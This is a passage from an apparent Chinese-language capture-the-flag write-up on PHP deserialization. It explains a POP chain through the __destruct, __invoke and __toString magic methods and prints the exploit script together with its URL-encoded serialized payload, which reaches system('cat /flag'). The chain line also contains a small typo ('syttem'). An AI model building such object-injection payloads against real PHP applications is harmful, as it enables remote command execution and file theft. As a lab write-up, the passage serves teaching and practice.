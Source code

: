 我们的最终目的是要触发 jungle 类中的KS方法，从而`cat /flag`，而触发KS方法得先触发 __toString 方法，一般来说，在我们使用 echo 输出对象时便会触发，例如：

```
<?php
class test{
    function __toString(){
        echo "__toString()";
        return "";
    }
}
$a = new test();
echo $a; 
```

在common.php中，我们并没有看到有echo一个类的操作，但是 class.php 有一个`stristr($this->name, 'Yasuo')`的操作，我们来看一下：

```
<?php
class test{
    function __toString(){
        echo "__toString()";
        return "";
    }
}
$a = new test();
stristr($a,'name'); 
```

所以整个POP链已经构成了:

```
topsolo->__destruct()->TP()->$name()->midsolo->__invoke()->Gank()->stristr()->jungle->__toString()->KS()->syttem('cat /flag') 
```

也就是：

```
<?php
class topsolo{
    protected $name;
    public function __construct($name = 'Riven'){
        $this->name = $name;
    }
}
class midsolo{
    protected $name;
    public function __construct($name){
        $this->name = $name;
    }
}
class jungle{
    protected $name = "";
}
$a = new topsolo(new midsolo(new jungle()));
$exp = serialize($a);
var_dump(urlencode($exp));
?>

输出：
O%3A7%3A%22topsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A7%3A%22midsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A6%3A%22jungle%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```
